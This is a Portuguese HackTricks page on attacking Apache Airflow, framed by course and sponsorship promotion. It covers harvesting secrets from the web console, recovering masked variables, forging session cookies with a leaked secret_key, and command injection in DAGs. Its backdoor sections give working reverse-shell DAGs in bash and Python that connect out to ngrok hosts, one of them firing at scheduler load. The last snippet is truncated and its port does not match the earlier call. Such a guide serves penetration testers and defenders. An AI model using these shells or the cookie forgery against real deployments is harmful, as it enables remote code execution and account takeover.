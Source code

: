 # Segurança do Apache Airflow

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

[**Apache Airflow**](https://airflow.apache.org) atua como uma plataforma para **orquestar e agendar pipelines ou fluxos de dados**. O termo "orquestração" no contexto de pipelines de dados significa o processo de organizar, coordenar e gerenciar fluxos de trabalho de dados complexos originados de várias fontes. O objetivo principal desses pipelines de dados orquestrados é fornecer conjuntos de dados processados e consumíveis. Esses conjuntos de dados são amplamente utilizados por uma infinidade de aplicativos, incluindo, mas não se limitando a ferramentas de inteligência de negócios, ciência de dados e modelos de aprendizado de máquina, todos os quais são fundamentais para o funcionamento de aplicativos de big data.

Basicamente, o Apache Airflow permitirá que você **agende a execução de código quando algo** (evento, cron) **acontece**.

## Laboratório Local

### Docker-Compose

Você pode usar o **arquivo de configuração docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para iniciar um ambiente completo do Apache Airflow com Docker. (Se estiver no MacOS, certifique-se de fornecer pelo menos 6GB de RAM para a máquina virtual do Docker).

### Minikube

Uma maneira fácil de **executar o Apache Airflow** é executá-lo **com o minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuração do Airflow

O Airflow pode armazenar **informações sensíveis** em sua configuração ou você pode encontrar configurações fracas em vigor:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC do Airflow

Antes de começar a atacar o Airflow, você deve entender **como funcionam as permissões**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataques

### Enumeração do Console Web

Se você tem **acesso ao console web**, pode ser capaz de acessar algumas ou todas as seguintes informações:

* **Variáveis** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* **Conexões** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* Acesse em `http://<airflow>/connection/list/`
* [**Configuração**](./#airflow-configuration) (Informações sensíveis como a **`secret_key`** e senhas podem ser armazenadas aqui)
* Listar **usuários e funções**
* **Código de cada DAG** (que pode conter informações interessantes)

### Recuperar Valores de Variáveis

Variáveis podem ser armazenadas no Airflow para que os **DAGs** possam **acessar** seus valores. É semelhante a segredos de outras plataformas. Se você tiver **permissões suficientes**, pode acessá-los na GUI em `http://<airflow>/variable/list/`.\
Por padrão, o Airflow mostrará o valor da variável na GUI, no entanto, de acordo com [**este**](https://marclamberti.com/blog/variables-with-apache-airflow/) é possível definir uma **lista de variáveis** cujo **valor** aparecerá como **asteriscos** na **GUI**.

![](<../../.gitbook/assets/image (164).png>)

No entanto, esses **valores** ainda podem ser **recuperados** via **CLI** (é necessário ter acesso ao BD), execução de **DAG arbitrário**, **API** acessando o endpoint de variáveis (a API precisa estar ativada) e **até mesmo a própria GUI!**\
Para acessar esses valores na GUI, basta **selecionar as variáveis** que deseja acessar e **clicar em Ações -> Exportar**.\
Outra maneira é realizar uma **força bruta** para o **valor oculto** usando o **filtro de pesquisa** até encontrá-lo:

![](<../../.gitbook/assets/image (152).png>)

### Escalação de Privilégios

Se a configuração **`expose_config`** estiver definida como **True**, a partir da **função de Usuário** e **acima** pode **ler** a **configuração na web**. Nesta configuração, a **`secret_key`** aparece, o que significa que qualquer usuário com isso válido pode **criar seu próprio cookie assinado para se passar por qualquer outra conta de usuário**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor do DAG (RCE no worker do Airflow)

Se você tem **acesso de escrita** ao local onde os **DAGs são salvos**, você pode simplesmente **criar um** que irá enviar a você um **shell reverso**.\
Observe que este shell reverso será executado dentro de um **container do worker do airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Backdoor do DAG (RCE no agendador do Airflow)

Se você definir algo para ser **executado na raiz do código**, no momento desta escrita, ele será **executado pelo agendador** alguns segundos após ser colocado dentro da pasta do DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Criação de DAG

Se você conseguir **comprometer uma máquina dentro do cluster DAG**, você pode criar novos **scripts DAGs** na pasta `dags/` e eles serão **replicados no restante das máquinas** dentro do cluster DAG.

### Injeção de Código DAG

Quando você executa um DAG pela GUI, você pode **passar argumentos** para ele. Portanto, se o DAG não estiver codificado corretamente, ele poderá ser **vulnerável à Injeção de Comandos**. Foi o que aconteceu neste CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tudo o que você precisa saber para **começar a procurar por injeções de comandos em DAGs** é que os **parâmetros** são **acessados** com o código **`dag_run.conf.get("nome_parametro")`**.

Além disso, a mesma vulnerabilidade pode ocorrer com **variáveis** (observe que, com privilégios suficientes, você poderia **controlar o valor das variáveis** na GUI). As variáveis são **acessadas com**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se forem usados, por exemplo, dentro de um comando bash, você poderia realizar uma injeção de comando.

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
